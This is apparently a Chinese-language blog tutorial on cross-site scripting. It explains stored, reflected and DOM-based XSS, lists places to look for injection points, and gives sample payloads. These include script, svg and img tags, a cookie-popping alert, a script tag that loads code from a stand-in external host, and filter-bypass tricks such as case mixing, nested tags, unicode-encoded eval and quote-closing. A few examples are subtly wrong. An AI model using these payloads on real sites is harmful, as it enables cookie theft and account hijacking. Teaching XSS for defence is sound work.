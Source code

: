 ```yaml
---
title: 什么是 XSS
date: 2024-12-25T10:34:39+08:00
author: LiangMingJian
---
```


# 简单介绍

HTML 注入与 XSS 攻击简单来说就是当用户在输入框输入内容时，后台对输入内容不做处理就直接添加入页面。此时，**用户可以刻意填写 HTML、JavaScript 脚本来作为文本输入**，这样这个页面就会出现一些非法加入的东西。

# XSS

跨站脚本攻击 XSS ( Cross Site Scripting )，为了不和层叠样式表 ( Cascading Style Sheets，CSS ) 的缩写混淆，所以将跨站脚本攻击缩写为 XSS。恶意攻击者往往会在 Web 页面里插入恶意 JavaScript 代码，当用户浏览该页面时，嵌入 Web 里面的 JavaScript 代码会被执行，从而达到恶意攻击用户的目的。

XSS 攻击主要分为以下三种

- 存储型 XSS：持久化的攻击。如果恶意攻击者在个人信息或发表文章等地方，插入代码，后端又没有过滤或过滤不严，那么这些代码就会被储存到服务器中，其他任何用户访问该页面时都会触发代码执行。
- 反射型 XSS：非持久化的攻击。需要欺骗用户自己去点击链接才能触发 XSS 代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。
- DOM 型 XSS：不经过后端的攻击。DOM-XSS 漏洞是基于文档对象模型 ( Document Objeet Model，DOM ) 的一种漏洞，DOM-XSS 是通过 URL 传入参数去控制触发的。可能触发 DOM 型 XSS 的属性有：document.referer，window.name，location，innerHTML，documen.write。具体操作是在 URL 中传入参数的值，然后客户端页面通过 JavaScript 脚本利用 DOM 的方法获得 URL 中参数的值，再通过 DOM 方法进行赋值或其他操作。

# XSS 的攻击载荷

## script 标签

```
<script>alert("hack")</script>   # 弹出 hack
<script>alert(/hack/)</script>   # 弹出 hack
<script>alert(1)</script>        # 弹出 1，对于数字可以不用引号
<script>alert(document.cookie)</script>      # 弹出 cookie
<script src=http://xxx.com/xss.js></script>  # 引用外部的 xss
```

## svg 标签

```
<svg onload="alert(1)">
<svg onload="alert(1)"/>
```

## img 标签

```
<img src=1 οnclick=alert("hack")>
<img src=1 οnclick=alert(document.cookie)>  # 弹出cookie
```

# XSS 漏洞的挖掘 

尽可能找到一切用户可控并且能够输出在页面代码中的地方，比如下面这些：

- URL的每一个参数
- URL本身
- 表单
- 搜索框

常见业务场景

- 重灾区：评论区、留言区、个人信息、订单信息等
- 针对型：站内信、网页即时通讯、私信、意见反馈
- 存在风险：搜索框、当前目录、图片属性等

# XSS 的简单过滤和绕过

## 区分大小写过滤标签

可以使用大小写绕过

```
<scripT>alert('hack')</scripT>
<sCript>alert("hey!")</scRipt>
```

## 不区分大小写过滤标签

可以使用嵌套的 script 标签绕过

```
<scr<script>ipt>alert('hack')</scr</script>ipt>
```

## 不区分大小写，过滤之间的所有内容

可以通过 img、body 等标签的 onerror 事件或者 iframe 等标签的 src 注入恶意的 JavaScript 代码。onerror 事件是专门针对 js 出错的，标签闭合性被破坏会触发这个事件。

```
<img src=1 οnclick=alert('hack')>
```

## 编码脚本代码绕过关键字过滤

有的时候，服务器往往会对代码中的关键字（ 如 alert ）进行过滤，这个时候我们可以尝试将关键字进行编码后再插入。我们可以用 eval() 将编码过的语句解码后再执行。例如：`alert(1) = eval(\u0061\u006c\u0065\u0072\u0074(1))`

```
<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>
```

## 主动闭合标签实现注入代码

 有些注入点出现在链接或属性中，此时可以使用`"`主动的闭合标签，实现代码的注入

```
";alert("I am coming again~");"
```

{{< details "参考文件" >}} 
1：[ XSS(跨站脚本攻击)详解  @615 ](https://www.cnblogs.com/wuqun/p/12484816.html)
{{< /details >}}
